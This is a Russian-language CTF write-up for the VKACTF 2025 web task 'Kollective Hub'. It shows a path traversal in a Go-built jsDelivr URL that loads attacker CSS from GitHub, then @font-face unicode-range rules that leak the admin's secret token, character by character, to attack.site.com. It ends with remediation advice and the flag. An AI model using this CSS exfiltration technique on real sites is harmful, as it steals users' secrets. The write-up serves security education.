


## Kollective Hub

| Событие | Название | Категория | Сложность |
| :------ | ------ | ------ | ------ |
| VKACTF 2025 | Kollective Hub | web | hard |

  
### Описание


> Автор: [m1st3r_Sc413t7x](https://t.me/m1st3r_Sc413t7x)
>
В Kollective Hub пользователи пока не могут создавать свои стили, но скоро мы это исправим, а пока можно загружать и делиться доступными, или не слишком доступными... Лариса - главный дизайнер коллектива, хочет создать единую AssA систему, но в каких-то корыстных целях, узнайте что она скрывает и помешайте этому. 


### Решение

При входе нас встречает сервис, функционал которого состоит в том, чтобы создавать, загружать и делиться `CSS` стилями, другого функционала нет, это сразу должно нас натолкнуть на `CSS-exfiltration`. Видим, что при регистрации у нас якобы формируется какой-то токен - AtomID. Если посмотреть на предоставленные файлы, то у админа в этом месте флаг, и нам нужно каким-то образом его получить. Из рабочего функционала мы понимаем, что можем загружать и делиться стилями => нам нужно каким-то образом загрузить собственный `css-sploit`. В `upload_handler.go` видим, что стили загружаются через `cdn.jsdeliver` - открытый источник для проектов. Место ввода выглядит так:

```
themeLink := fmt.Sprintf("https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/%s-mode.css", themeNameTrimmed)
```

Если ввести dark/light, то нам реально загружаются стили из данного источника, все остальные нет. Изучив этот `cdn`, видим, что можно загружать свои стили, например, через `GitHub`.

```
https://cdn.jsdelivr.net/gh/user/repo@version/file
```

Выполнив это, посмотрим на строку формирования ссылки. Так как при вставке в `Sprintf()` вводимые данные не фильтруются, пробуем использовать уязвимость `Path Traversal`. Создадим в своем репозитории на `GitHub` любой `file-mode.css` для проверки. Загружаем файл следующим образом (без `-mode.css`, так как уже добавляется в коде):

```
../../../gh/daniilscaletta/css_example/file
```

Видим, что загрузка прошла, теперь необходимо написать `CSS-exploit`, который позволит нам получить символы флага.
Во-первых, нужно применить наш `exploit` к правильной области:

```
@charset "UTF-8";

.profile-info .profile-row:nth-child(4) .value {
    font-family: attack !important;
    font-size: 16px;
    display: inline;
}
```

Во-вторых, необходимо придумать способ как "украсть" контент через CSS. Если секретный контент находится в элементе `<input>`, то можно использовать `background-image`. Но в нашем случае мы воспользуемся `@font-face` для созданного шрифта.

```
@font-face {
    font-family: attack;
    src: url('https://attack.site.com/flag?v');
    unicode-range: U+0082;
}
@font-face {
    font-family: attack;
    src: url('https://attack.site.com/flag?k');
    unicode-range: U+0071;
}
@font-face {
    font-family: attack;
    src: url('https://attack.site.com/flag?a');
    unicode-range: U+0061;
}
```

Запросы приходят нам на вебхук, теперь напишем `exploit` на `Python` для генерации `CSS-exploit` со всей мощностью символов.

### Сплоит генерации `CSS-exploit`:

[gensploit_detect.py](./sploits/gensploit_detect.py)

### Полная версия `CSS-exploit`:

[detect-sploit.css](./sploits/exploit_detect.css)

### Символы приходят на `request catcher` (1)



Таким образом мы получили всю мощность символов, которые используются во флаге, теперь примерно увидев верный вариант, отправляем символы в правильной последовательности.

[check-sploit.css](./sploits/exploit_check.css)

### Символы приходят на `request catcher` (2)



Собираем флаг и сдаем системе.

### Ремарка 

```
Из-за особенностей сети при отправке запросов на перехват они могут приходить, а чаще всего, и приходят в неправильной последовательности. Ввиду того, что на этот факт участник повлиять никак не может, флажок выдавался по предоставлению организаторам всех пришедших символов.
```

### Устранение уязвимости

В данном таске были собраны несколько уязвимостей, которые естественно должны быть закрыты в реальном приложении:
1) Необходимо полностью изучать поведение подключаемых модулей, особенно открытых, и понимать, нельзя ли обойти их ограничения.
2) Касаемо любых входных данных, в том числе и стилей, нужно предварительно их фильтровать и при необходимости блокировать, перед применением просматривать на наличие возможных утечек.
3) Перед тем как принимать какие-либо данные от других пользователей, необходимо подтверждать это действие.

### Флаг

```
vka{ghost_pixel}
```